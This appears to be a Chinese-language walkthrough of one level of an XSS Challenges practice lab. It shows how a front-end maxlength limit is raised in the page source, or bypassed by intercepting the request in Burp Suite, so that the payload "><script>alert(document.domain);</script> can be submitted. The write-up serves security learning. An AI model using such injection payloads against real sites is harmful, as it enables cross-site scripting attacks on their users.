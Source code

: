 ![尝试提交 js 代码](./../../../../image/XSS%20Challenges/%E5%B0%9D%E8%AF%95%E6%8F%90%E4%BA%A4%20js%20%E4%BB%A3%E7%A0%81.png)

> 发现字符长度有限制，无法提交 js 代码

查看源码

```
<input type="text" name="p1" maxlength="15" size="30" value="">
```

>`maxlength="15" ` 限制字符长度为 15

修改限制为 150

```
<input type="text" name="p1" maxlength="150" size="30" value="">
```

再次提交

```
"><script>alert(document.domain);</script>
```

> 成功注入
>
> 由于只对前端限制，也可以通过 burpsuite 抓包修改
>
> ```
> p1="><script>alert(document.domain);</script>
> ```
>
> 若有 WAF 或后端限制，则无法修改
